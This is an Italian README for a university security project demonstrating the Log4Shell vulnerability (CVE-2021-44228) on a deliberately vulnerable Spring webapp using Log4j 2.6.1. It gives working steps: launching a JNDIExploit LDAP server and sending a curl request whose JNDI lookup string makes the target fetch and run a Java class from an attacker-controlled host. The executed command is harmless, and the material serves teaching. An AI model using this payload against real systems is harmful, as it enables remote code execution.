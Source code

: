 # Progetto sicurezza Informatica ICDA A.A 2021-2022

Lo scopo di questo progetto è quello di mostrare la vulnerabilità Log4shell CVE-2021-44228 che affligge la libreria Java Log4j , impiegata da innumerevoli software di ogni tempo (programmi standard, giochi, webapp).

In questo progetto è stata scelta una webapp spring (popolare web framework Java MVC), opportunamente modificata per lo scopo.

La parte da me modificata si trova nel controller "HomeController", file "HomeController.java"

La libreria impiegata di log4J 2.6.1.
Nel progetto è presente il file pom.xml per la compilazione tramite Maven.
Ho creato un DockerFile che contiene al suo interno tutto il necessario per avviare l'immagine senza alcuna configurazione e senza installare la JDK necessaria per dimostrare l'exploit.

## Utilizzo
Prima di tutto sarà necessario avviare un server mysql e impostare il relativo indirizzo, username e password nel file "application.properties", all'interno della cartella "resources". è possibile utilizzare un container docker allo scopo.

Successivamente sarà necessario avviare il server LDAP che servirà la classe Java con il Payload.


```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i tuo-indirizzo-ip-privato -p 8888
```



Per sfruttare la vulnerabilità è necessario  creare un payload (un comando che si vuole far eseguire al server remoto). Esempio:

```bash
touch /tmp/hacked
```

e includerlo (codificato in base64) in una richiesta da inviare al server della webApp. Si userà il comando Curl per lo scopo.

Una volta inviato il comando, il metodo della libreria Log4j interpreterà il comando, sarà scaricata ed eseguita  una classe Java dal server LDAP (controllato dall'attaccante)  e successivamente avverrà l'esecuzuzione del payload, contenuto all'interno della classe Java scaricata nel passo precedente. Esempio di comando valido:

```bash
curl -A '${jndi:ldap://192.168.10.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQ=}' http://172.18.0.2:8080
```

## Avvio web-app

```bash
docker run --name nomeApplicazione -p 8080:8080 --network nomeRete
```




Successivamente sarà possibile notare dai log del server LDAP che è stata servita la classe Java al server della webapp, con il relativo payload.
A seconda del comando eseguito, è possibile vedere il risultato. Ad esempio, se il payload provoca la creazione di file, è possibile entrare nel container e verificarlo. Ad esempio:


```bash
docker exec -it nomeApplicazione sh
```

```bash
ls /tmp/hacked
```





```

## Contributing
La webApp impiegata in questo progetto è stata creata dall'autore GNico (github: https://github.com/GNico/spring-eshop )


Il server LDAP è stato creato da feihong-cs.


La libreria Log4J è di Apache Software foundation https://logging.apache.org/log4j/2.x/index.html

Integrazione Log4J nella webApp: Andrea Carro



## License
[MIT](https://choosealicense.com/licenses/mit/)
